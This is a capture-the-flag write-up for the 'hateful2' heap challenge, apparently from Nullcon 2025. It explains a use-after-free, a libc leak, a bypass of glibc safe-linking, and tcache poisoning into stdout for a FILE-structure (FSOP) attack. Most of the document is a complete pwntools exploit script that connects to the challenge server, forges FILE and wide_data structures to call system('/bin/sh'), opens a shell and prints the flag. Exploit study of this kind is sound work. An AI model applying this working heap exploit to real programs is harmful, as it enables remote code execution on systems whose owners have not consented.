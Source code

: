 series of 2, first one was fmt and easier which i covered it up [here](https://github.com/4rsp/writeups/tree/main/Nullcon-2025/hateful)

this one is about heap...

Full Relro, pie & canary... and a dream 😉

```C
undefined8 main(EVP_PKEY_CTX *param_1)

{
  int iVar1;
  long in_FS_OFFSET;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  logo();
  puts("\nWelcome to our improved service edition HATEFUL2!\n");
  puts(
      "[+] After we have receives positive feedback of all our customers\nwe updated our service to make it even easier for you to use! (but also because we saw sus behaivors)"
      );
  puts("\nTo access our service now just use the MENU!");
  do {
    menu();
    iVar1 = __isoc99_scanf("%i%*c",&local_14);
    if (iVar1 == 0) {
      getchar();
    }
    switch(local_14) {
    case 0:
      about_us();
      break;
    case 1:
      add_message();
      break;
    case 2:
      edit_message();
      break;
    case 3:
      view_message();
      break;
    case 4:
      remove_message();
      break;
    case 5:
      puts("GoodBye!");
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return 0;
    default:
      puts("Invalid Option my Friend. Try Again!\n");
    }
  } while( true );
}
```

my beloved heap menu. about_us function gives us a free stack leak, don't forget to take it before we move on :)
> i didn't use it tho..

remove_message function frees an allocated memory but doesn't zero out the pointer... which gives us a sweet UAF

first, fill the tcache to get an allocation in unsortedbin to leak a libc addr

and we also need to leak mangled ptr to perform tcache poisioning due to safe-linking (glibc 2.36)

a few words for safe-linking:

- tcache next pointers are mangled
- de-mangled pointer least significant nibble MUST be 0x0

~~which is why we can't just overwrite saved_rip of main...~~ (nvm.. it was my bad, people on discord have done it apparently)
> also there isn't just saved_rip of main, you know..
  
carefully allocate a chunk somewhere near stdout file structure and do FSOP

im not going into details about fsop attack, i explained it in [here](https://github.com/4rsp/docs/blob/main/practice.tool/file.structs/README.md) and used the same path

here's the code that does all that with friendly comments :)

```python3
#!/usr/bin/env python3

from pwn import *
import time

'''
p = gdb.debug("./hateful2_patched", gdbscript="""
              b *main+303
    c
""")
'''
p = remote("52.59.124.14", 5022)
#p = process("./hateful2_patched")

def demangle(ptr):
    mid = ptr ^ (ptr >> 12)
    return mid ^ (mid >> 24)

def mangle(ptr, pos):
    return (pos >> 12) ^ ptr

def malloc(idx, size, data):
    time.sleep(0.1)
    p.sendline(b"1")
    p.sendlineafter(b"Index: ", idx.encode('utf-8'))
    p.sendlineafter(b"Size: ", size.encode('utf-8'))
    p.sendlineafter(b">> ", data)
    
def free(idx):
    time.sleep(0.1)
    p.sendline(b"4")
    p.sendlineafter(b"Index: ", idx.encode('utf-8'))

def view(idx):
    p.sendline(b"3")
    p.sendlineafter(b"Index: ", idx.encode('utf-8'))
    p.recvuntil(b"Message: ")
    return p.recvline().strip()

def edit(idx, data):
    time.sleep(0.5)
    p.sendline(b"2")
    p.sendlineafter(b"Index: ", idx.encode('utf-8'))
    p.sendlineafter(b">> ", data)

# get the stack leak from option 0
p.sendline(b"0")
p.recvuntil(b"up to ")
stack_leak = int(p.recv(15))
print(f"stack leak: {hex(stack_leak)}")
rip = stack_leak + 0x14
print(f"saved_rip: {hex(rip)}")

# get an allocation on unsortedbin
# and leak the libc addr

for i in range(9):
    malloc(f"{i+4}", "240", b"")
    print(".")

for l in range(8):
    free(f"{l+4}")

libc_leak = u64(view("11").ljust(8, b"\x00"))
libc_base = libc_leak - 0x1d2cc0
stdout = libc_base + 0x1d3760
print(f"libc base: {hex(libc_base)}")
print(f"stdout: {hex(stdout)}")
system = libc_base + 0x4c490

# we will use this malloc to store our fake wide_data struct (idx 4)
# size should be big enough to hold the struct
malloc("4", "300", b"C"*8)

# leak mangled ptr 
malloc("0", "400", b"aaaa")
malloc("1", "400", b"bbbb")
free("1")
free("0")
leak = u64(view("0").ljust(8, b"\x00"))
print(f"mangled ptr: {hex(leak)}")
print(f"demangled ptr: {hex(demangle(leak))}")

# tcache poisoning
edit("0", p64(mangle(stdout-16, demangle(leak))))
malloc("3", "400", b"")

# needed addresses for FSOP 
lock = libc_base + 0x1d4a10
wfile = libc_base + 0x1cf0a0
malloc_addr = demangle(leak) - 0x340 + 96
jmp_to = wfile - 0x38 + 0x18
print(f"lock: {hex(lock)}")
print(f"wfile_jumps: {hex(wfile)}")
print(f"idx 4 malloc at: {hex(malloc_addr)}")

# file structure
payload = b"A"*16 # padding to stdout
payload += b" /bin/sh" # _flags + 4-byte hole
payload += b"\x00"*88 # *_IO_read_ptr -> *_IO_save_end
payload += b"\x00"*8 # *_markers
payload += b"\x00"*8 # *_chain
payload += b"\x00"*4 # _fileno
payload += b"\x00"*4 # _flags2
payload += b"\xff"*8 # _old_offset
payload += b"\x00"*2 # _cur_coloumn
payload += b"\x00"*1 # _vtable_offset
payload += b"\x01"*1 + p32(0x00) # _shortbuf[1] + 4-byte hole
payload += p64(lock) # *_lock
payload += b"\xff"*8 # _offset
payload += b"\x00"*8 # *_codecvt
payload += p64(malloc_addr) # *_wide_data
payload += b"\x00"*8 # *_freeres_list
payload += b"\x00"*8 # *_freeres_buf
payload += b"\x00"*8 # *__pad5
payload += b"\xff"*4 # _mode
payload += b"\x00"*20 # _unused2[20]
payload += p64(jmp_to) # VTABLE

# write fake wide_data struct to the malloc at idx 4
payload2 = p64(0x08) + p64(0x02) + b"a"*8 + p64(0x00) + p64(malloc_addr+112) + b"b"*8 + p64(0x00) + p64(system) + b"c"*160 + p64(malloc_addr-48)
edit("4", payload2)

# overwrite the file structure
# and enjoy your shell :p
malloc("3", "400", payload)

p.interactive()
```

FLAG: ```ENO{W3_4R3_50RRY_4G41N_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}```


***4rsp is learning to pwn things...***
